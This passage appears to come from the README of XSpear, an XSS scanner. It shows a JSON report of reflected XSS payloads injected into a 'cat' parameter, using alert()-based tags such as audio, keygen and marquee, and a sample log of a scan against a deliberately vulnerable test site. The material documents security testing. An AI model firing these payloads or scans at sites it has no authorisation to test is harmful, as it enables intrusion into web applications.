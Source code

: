 ```
        "method": "GET",
        "param": "cat",
        "payload": "<audio src onloadstart=alert(45)>",
        "description": "reflected HTML5 XSS Code"
    }, {
        "id": 18,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<keygen autofocus onfocus=alert(45)>",
        "description": "reflected onfocus XSS Code"
 ....
    }, {
        "id": 24,
        "type": "HIGH",
        "issue": "XSS",
        "method": "GET",
        "param": "cat",
        "payload": "<marquee onstart=alert(45)>",
        "description": "triggered <marquee onstart=alert(45)>"
    }]
}
```
(Items marked as `triggered` are actually payloads that work in the browser.)

**XSpear on Burpsuite**<br>
https://github.com/hahwul/XSpear/tree/master/forBurp

etc...

### Sample log
**Scanning XSS**
```
xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=z"
    )  (
 ( /(  )\ )
 )\())(()/(          (     )  (
((_)\  /(_))`  )    ))\ ( /(  )(
__((_)(_))  /(/(   /((_))(_))(()\
\ \/ // __|((_)_\ (_)) ((_)_  ((_)
 >  < \__ \| '_ \)/ -_)/ _` || '_|
/_/\_\|___/| .__/ \___|\__,_||_|    />
           |_|                   \ /<
{\\\\\\\\\\\\\BYHAHWUL\\\\\\\\\\\(0):::<======================-
                                 / \<
                                    \>       [ v1.4.0 ]
[*] analysis request..
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 1 param ]
[*] test query generation is complete. [251 query]
[*] starting XSS Scanning. [10 threads]
...snip...
[*] finish scan. the report is being generated..
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
|                                                            [ XSpear report ]                                                            |
|                              http://testphp.vulnweb.com/listproducts.php?cat=123&zfdfasdf=124fff... (snip)                              |
|                                 2019-08-14 23:50:34 +0900 ~ 2019-08-14 23:51:07 +0900 Found 24 issues.                                  |
+----+-------+------------------+--------+-------+----------------------------------------+-----------------------------------------------+
```